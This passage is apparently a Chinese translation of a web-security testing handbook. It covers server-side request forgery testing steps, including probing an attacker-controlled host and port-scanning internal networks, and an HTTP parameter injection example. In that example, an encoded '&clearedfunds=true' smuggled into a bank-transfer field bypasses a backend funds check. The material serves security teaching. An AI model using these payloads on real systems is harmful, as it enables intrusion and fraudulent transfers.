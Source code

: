 **HACK STEPS**
- 1.标识任何看起来包含主机名，IP地址或完整URL的请求参数。
- 2.对于每个参数，修改其值以指定替代资源，类似于请求的资源，然后查看该资源是否出现在服务器的响应中。
- 3.尝试指定一个以您控制的Internet上的服务器为目标的URL，并监视该服务器是否有来自正在测试的应用程序的传入连接。
- 4.如果没有收到传入连接，请监视应用程序响应所花费的时间。 如果存在延迟，则由于出站连接的网络限制，应用程序的后端请求可能会超时。
- 5.如果成功使用该功能连接到任意URL，请尝试执行以下攻击：
	- a.确定是否可以指定端口号。 例如，您可以提供`http://mdattacker.net:22`。
	- b.如果成功，请尝试使用Burp Intruder之类的工具对内部网络进行端口扫描，以依次连接到一系列IP地址和端口（请参阅第14章）。
	- c.尝试连接到应用程序服务器的环回地址上的其他服务。
	- d.尝试将您控制的网页加载到应用程序的响应中，以进行跨站点脚本攻击。

**NOTE**
某些服务器端重定向API，例如ASP.NET中的`Server.Transfer()`和`Server.Execute()`，仅允许重定向到同一主机上的相对URL。 将用户提供的输入传递给这些方法之一的功能仍可能被利用，以利用信任关系并访问受平台级身份验证保护的服务器上的资源。

# 2.HTTP参数注入(HTTP Parameter Injection)

当用户提供的参数用作后端HTTP请求中的参数时，会出现HTTP参数注入（HPI）。 考虑以前容易受到SOAP注入攻击的银行转帐功能的以下变化：
```
POST /bank/48/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 65

FromAccount=18281008&Amount=1430&ToAccount=08447656&Submit=Submit
```
该前端请求是从用户的浏览器发送的，它使应用程序向银行基础架构内的另一台Web服务器发出另一个后端HTTP请求。 在此后端请求中，应用程序从前端请求中复制一些参数值：
```
POST /doTransfer.asp HTTP/1.0
Host: mdsec-mgr.int.mdsec.net
Content-Length: 44
fromacc=18281008&amount=1430&toacc=08447656
```
该请求使后端服务器检查已清除的资金是否可用于执行转帐，如果可以，则执行该转帐。 但是，前端服务器可以选择提供以下参数，以指定已清算资金可用，从而绕过支票：
```
clearedfunds=true
```
如果攻击者知道此行为，则他可以尝试执行HPI攻击，将`clearedfunds`参数注入到后端请求中。 为此，他将必需的参数添加到现有参数值的末尾，并对URL编码`＆`和`=`，这两个字符用于分隔名称和值：
```
POST /bank/48/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 96

FromAccount=18281008&Amount=1430&ToAccount=08447656%26clearedfunds%3dtru
e&Submit=Submit
```
当应用程序服务器处理此请求时，它将以常规方式对参数值进行URL解码。 因此，前端应用程序接收到的ToAccount参数的值如下：
```
08447656&clearedfunds=true
```
如果前端应用程序未验证此值，并将其未经过滤处理传递给后端请求，则会发出以下后端请求，该请求将成功绕过对已清资金的检查：
```
POST /doTransfer.asp HTTP/1.0
Host: mdsec-mgr.int.mdsec.net
Content-Length: 62

fromacc=18281008&amount=1430&toacc=08447656&clearedfunds=true
```
